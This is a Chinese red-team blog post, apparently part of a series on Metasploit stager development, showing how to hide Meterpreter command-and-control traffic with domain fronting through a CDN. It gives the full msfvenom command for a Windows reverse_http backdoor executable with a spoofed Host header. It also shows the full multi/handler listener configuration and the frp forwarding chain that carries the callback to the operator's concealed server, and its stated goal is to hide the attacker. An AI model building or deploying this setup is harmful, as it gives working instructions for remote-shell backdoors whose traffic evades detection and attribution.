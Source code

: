 ```yaml
---
title: "msf stagers开发不完全指北(四): msf 中使用域前置技术隐藏流量"
slug: msf-stagers-develop-4
date: 2020-07-17 18:01:00
tags:
- msf
- 工具
- 红队
categories:
- 开发
---
```


前几篇都是说了下如何采用不同的语言开发 reverse_tcp 第二阶段，接下来将慢慢分析 reverse_http，这篇文章并不会围绕 stagers 进行讲解，这篇文章只是半埋上我之前挖的一个坑，关于域前置技术如何在 msf 中进行应用。

<!--more-->

## 域前置技术介绍


域前置技术（Domain-Fronting）顾名思义，把域名放在前面，流量的前面，那么我们应该如何做到这件事情，这个一般就是利用各大 cdn 服务了。


cdn 技术我不用做过多介绍，相信大家给自己的网站上 cdn 都会上，简略来说原理的话，在域名注册商那里把 ns 记录，也就是 dns 解析服务器指向到你选择的 cdn 服务商，然后 cdn 就可以接管你的域名解析了，通过不同的缓存分流策略，把流量经过他的服务器后再转发给我们自己，也就是 cdn 后面的真实ip我们是不容易找到的。


那么应用到 C2 上，我们 C2 服务器也可以挂在 cdn 后面，流量通过 cdn 转发回来。


具体更为详细的介绍可以参见 [红队行动之鱼叉攻击-倾旋](https://payloads.online/archivers/2020-02-05/1#domain-fronting)


## 基础配置


首先不管怎样你需要有一个服务器，以及一个加了 cdn 的域名执行你服务器


这里我假设我们持有的域名为 test.akkuman.com，域名配好 cdn 指向的服务器是 1.1.1.1


这里你是把服务器架在 msf 上面还是内网穿透打通端口，这个看自己喜好


我这里是 msf 位于其他地方 2.2.2.2，然后 2.2.2.2 的 5555 端口通过 frp 映射到 1.1.1.1 的 80 端口上。


5555 端口是我们待会 msf 监听的端口，80 端口是因为访问域名，http 协议，访问80。


因为这些流量会通过 cdn 先转发到我们主机上的 80 端口，然后 80 端口上的流量会通过 frp 处理后送到我们本机监听的 5555 端口上。


## 生成 msf payload


基础一些配置做好之后，我们可以生成 payload 了。


首先我们需要得到一个 cdn 的 ip，因为 cdn 是依靠 http header 中的 Host 头进行流量转发的，所以我们只需要 ping 一下我们加了 cdn 的域名即可获得一个 ip，这里我是用的 cloudflare，获得的一个 ip 为 172.67.207.124


```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=172.67.207.124 LPORT=80 HttpHostHeader=test.akkuman.com -f exe -o ~/payload.exe
```


这里 LHOST 为我们获取的 cdn ip，因为是 http 协议的 payload，访问域名是访问 80 端口，LPORT 我们设置为 80


HttpHostHeader 选项为这个生成的 payload 使用 http 协议回连到 cdn ip 时 http header 所使用的 Host 头，还记得我们刚才说的 cdn 如何识别域名进行流量转发吗，这个就主要是为了 cdn 能够把流量转回到我们自己的服务器


## 创建监听器


msf 在监听中有一些配置需要说明一下


```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(multi/handler) > set lhost 172.67.207.124
lhost => 172.67.207.124
msf5 exploit(multi/handler) > set lport 80
lport => 80
msf5 exploit(multi/handler) > set HttpHostHeader test.akkuman.com
HttpHostHeader => test.akkuman.com
msf5 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf5 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf5 exploit(multi/handler) > set ReverseListenerBindPort 5555
ReverseListenerBindPort => 5555
msf5 exploit(multi/handler) > run
```


- 首先 lhost 为给 payload 返回第二阶段载荷时填入的 ip 地址，即第二阶段会回连到这个 ip


- lport 为给 payload 返回第二阶段载荷时填入的 port，即第二阶段会回连到这个端口


- HttpHostHeader 前面说过，是 payload 回连到这个 ip 和 port 时在 http header 中填入的 Host 头


- OverrideRequestHost 这个选项需要设置为 true，主要是因为 msf 的历史原因，msf 默认是使用传入请求 http header 中的 Host 字段来作为第二阶段的配置，也就是第二阶段会采用建立连接时传入请求的 Host，这种默认行为在大多数请求下没问题，具体可以自行测试，具体是需要 cdn 回连到我们真实 ip 时传递的域名是我们想要的，这个参数设置为 true 可以让 msf 忽略传入请求的 Host 头，而使用我们在 HttpHostHeader 中设置的


- ReverseListenerBindAddress 和 ReverseListenerBindPort 参数主要是因为我的环境问题，我是通过 frp 把 1.1.1.1:80 穿透到了本地 (2.2.2.2) 的 127.0.0.1:5555，如果你的 msf 直接在 1.1.1.1 上，那么 duck 不必这么做，直接监听 80 就好


ReverseListenerBindAddress 这个参数其实设置不设置都没关系，但是不设置的话会有个小报错，


```
[-] Handler failed to bind to 172.67.207.124:80
```


这是因为 handler 无法将 cdn 的 ip 绑定到LHOST，因为这个 ip 在我们服务器上不存在，绑定失败就会提示这个，然后继续绑定 0.0.0.0。如果想要在界面上不显示这个错误，需要设置 ReverseListenerBindAddress 为 0.0.0.0 或者 127.0.0.1 之类的


可以看到，当我们不设置 ReverseListenerBindAddress 和 ReverseListenerBindPort 时会出现上面的报错 `Handler failed to bind to 172.67.207.124:80`


也就是 handler 在本地上是希望监听 80 的，而 1.1.1.1:80 上面的流量是转发到我们服务器 (2.2.2.2) 本机的 5555 端口上的。


所以我们的监听程序实际上需要监听在 5555 端口上，所以需要设置 ReverseListenerBindPort 参数


上面的 lhost 和 lport 其实主要是为了第二阶段回送服务的。


## 实际效果


```
paylaod.exe <-> cdnip:80(Host: test.akkuman.com) <-> 1.1.1.1:80 <-> frp[1.1.1.1:7000<->2.2.2.2:随机端口] <-> 127.0.0.1:5555
```


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/f307ddbb192427e72e620228ede6a747..png)


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/02253a789ae1ae4a4bdaddd3a019d614..png)


可以看到不管是请求第二阶段还是后续的心跳包，都是有带上 Host 头，流经 cdn 服务器的，这样我们就达到了隐藏自身的效果


那么 msf 会话这边呢


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/68c7066f12a652f6c55ce8f75b50e27f..png)



可以看到，也是可以正常使用的